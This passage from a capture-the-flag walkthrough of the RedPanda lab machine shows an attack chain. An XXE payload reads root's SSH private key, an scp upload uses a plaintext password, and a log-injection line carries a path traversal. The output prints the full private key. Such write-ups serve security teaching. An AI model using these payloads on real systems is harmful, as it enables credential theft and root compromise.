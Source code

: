 The program will then read the artist metadata from that image as
`../tmp/0xdf` to build the path `/credits/../tmp/oxdf_creds.xml`.

It will load that XML file, and on doing so, the entity in it, reading
in the contents of `/etc/passwd`. Then it will increment the `views`
field, and write the results back to the same file.

After the next run, I'll see the results in the file:

![](/img/image-20221122085057394.png)

### Shell

#### Collect SSH Key

With the ability to read files as root, I could just read the flag, but
in interest of getting a shell, I'll try to read root's SSH key. I'll
update the XXE to target the default key name:



    ...[snip]...
    <!DOCTYPE root [
    <!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>]>
    ...[snip]...



Copy that file up to RedPanda:



    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/



And inject another log:



    woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log



I'll make sure the JPG is still in place and hasn't been cleaned up as
well.

When the cron next runs, the key is there:



    woodenk@redpanda:/opt/panda_search$ cat /tmp/0xdf_creds.xml 
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root>
    <credits>
      <author>damian</author>
      <image>
        <uri>/img/angy.jpg</uri>
        <views>1</views>
        <root>-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
    ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
    AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
    RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
    -----END OPENSSH PRIVATE KEY-----</root>
      </image>
      <image>
        <uri>/img/shy.jpg</uri>
        <views>0</views>
      </image>
      <image>
        <uri>/img/crafty.jpg</uri>